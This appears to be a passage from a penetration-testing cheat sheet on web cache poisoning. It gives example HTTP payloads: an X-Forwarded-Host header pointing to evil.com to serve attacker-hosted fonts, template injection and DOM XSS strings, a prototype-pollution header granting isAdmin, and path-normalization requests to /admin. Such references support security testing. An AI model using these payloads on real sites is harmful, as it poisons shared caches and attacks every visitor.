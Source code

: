     - **Font and media import attacks**
      - Target dynamically generated font URLs
      - Example payload for font import:
        ```http
        GET / HTTP/1.1
        Host: example.com
        X-Forwarded-Host: evil.com
        ```
      - Response contains: `@font-face { src: url(https://evil.com/font.woff); }`
      - Deliver malicious resources through trusted domain
  
  - **DOM-based cache poisoning**
    
    - **Client-side template injection**
      - Target client-side templating in cached responses
      - Example payload:
        ```http
        GET /?template=${alert(1)} HTTP/1.1
        ```
      - Exploit client-side template engines (Handlebars, Angular)
      - Poison cache with template injection payloads
    
    - **DOM XSS via cache poisoning**
      - Target client-side JavaScript in cached responses
      - Example payload for innerHTML vulnerability:
        ```http
        GET /?param=<img src=x onerror=alert(1)> HTTP/1.1
        ```
      - Combine with unkeyed inputs for cache persistence
      - Exploit DOM-based vulnerabilities at scale
    
    - **Client-side prototype pollution**
      - Poison cache with JSON responses containing prototype pollution
      - Example payload:
        ```http
        GET /api/config HTTP/1.1
        X-Json-Override: {"__proto__":{"isAdmin":true}}
        ```
      - Exploit client-side object merging
      - Poison application state for all users
  
  - **Web cache poisoning without unkeyed inputs**
    
    - **Cache key flaws**
      - Target incorrectly constructed cache keys
      - Example: Cache ignoring parts of URL (fragments, specific parameters)
      - Find parameters excluded from cache key but included in response
      - Exploit normalization differences (upper/lowercase, encoded chars)
    
    - **Normalized cache poisoning**
      - Exploit URL normalization differences
      - Example payloads:
        ```
        GET /home/./admin HTTP/1.1
        GET /home/%2e/admin HTTP/1.1
        ```
      - Cache might use normalized URL as key
      - Application processes original URL
      - Poison cache with privileged content
    